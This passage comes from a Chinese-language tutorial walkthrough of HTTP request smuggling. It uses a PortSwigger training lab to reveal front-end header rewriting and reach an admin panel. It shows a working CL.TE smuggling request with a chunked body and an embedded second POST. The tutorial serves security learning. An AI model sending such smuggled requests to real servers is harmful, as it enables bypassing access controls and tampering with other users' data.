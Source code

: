 前端服务器将重写请求以包括附加的报头，然后后端服务器将处理走私的请求并将重写的第二请求视为 emil 参数的值，然后它会在第二个请求的响应中回显这个值：

```bash
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

确定前端服务器是如何重写请求的后我们就可以将必要的重写应用到您走私的请求上以确保它们被后端服务器以预期的方式处理，下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，在/admin 有一个管理面板，但是只有 IP 地址为 127.0.0.1 的人才能访问，前端服务器向包含 IP 地址的传入请求添加 HTTP 头，它类似于 X-Forwarded-For 标头，但名称不同，为了解决这个实验题目，你需要偷偷的向后端服务器发送一个请求，该请求显示前端服务器添加的头，然后偷偷向后端服务器发送一个请求，其中包含添加的头，访问管理面板并删除用户 carlos  
演示步骤：  
Step 1：首先访问上面的链接进入靶场地址，随后点击"ACCESS THELAB"进入靶场，直接访问/admin 地址会被拦截，回显内容提示需要 administrator 用户访问并要求来访地址为 127.0.0.1 才阔以  
[![](assets/1704418275-c47950103ca31118a7281714520ad43a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155800-d0467b0c-aa0d-1.png)  
然后搜索 Blog

[![](assets/1704418275-d16268019323c218d1d4d41f437db252.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155813-d811163a-aa0d-1.png)  
使用 burpsuite 抓包可以看到我们搜索的内容——"1111"被回显到了响应报文中  
[![](assets/1704418275-0c132421962ee9b21c2426d3f57886ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155829-e1e6fe0e-aa0d-1.png)  
Step 3：随后构造以下请求数据报文

```bash
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

[![](assets/1704418275-200e735063423643b4df2e6218fab657.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155855-f18dfe66-aa0d-1.png)
